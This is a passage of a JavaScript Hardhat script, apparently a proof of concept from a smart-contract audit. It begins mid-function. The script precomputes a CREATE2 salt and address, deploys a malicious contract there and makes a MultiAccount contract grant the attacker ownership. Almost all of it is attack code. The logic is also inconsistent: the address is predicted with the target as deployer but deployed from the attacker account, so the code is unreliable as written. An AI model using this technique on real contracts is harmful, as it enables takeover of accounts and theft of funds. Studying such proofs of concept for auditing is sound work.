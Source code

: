 ```javascript
    return predictAddress(deployer.address, bytecode, salt);
}

/**
 * Main function for the script.
 * The goal is to predictably deploy a malicious contract on a certain address,
 * and then trick another contract (MultiAccount) into interacting with it.
 */
async function main() {
    // Getting the necessary signers (accounts) for deployment and attack.
    const [deployer, attacker] = await ethers.getSigners();

    // Deploying the MultiAccount contract, which is our target.
    const MultiAccount = await ethers.getContractFactory("MultiAccount");
    const multiAccount = await MultiAccount.deploy();

    // Predicting the next salt and address for the malicious contract.
    const saltCounter = await multiAccount.saltCounter();
    const salt = keccak256(
        ethers.utils.defaultAbiCoder.encode(
            ["string", "uint256"],
            ["MultiAccount_", saltCounter]
        )
    );

    // Preparing the bytecode for the malicious contract with the necessary constructor arguments.
    const MaliciousContract = await ethers.getContractFactory("MaliciousCREATE2Impl");
    const constructorArgs = ethers.utils.defaultAbiCoder.encode(["address"], [attacker.address]);
    const initCode = MaliciousContract.bytecode + constructorArgs.slice(2);
    
    const predictedAddress = predictAddress(multiAccount.address, initCode, salt);
    console.log("Predicted Address:", predictedAddress);

    // Deploying the malicious contract to the previously predicted address.
    const actualAddress = await deployUsingCreate2(initCode, attacker, salt);
    console.log("Actual Address:", actualAddress);

    // Creating a new account in the MultiAccount contract, triggering its interaction with the malicious contract.
    await multiAccount.addAccount("Test");

    // Displaying the result to verify if the attack was successful.
    console.log("Owners Address:", await multiAccount.owners(attacker.address));
}

// Executing the main function and handling potential errors.
main().catch(error => {
    console.error(error);
    process.exit(1);
});
```
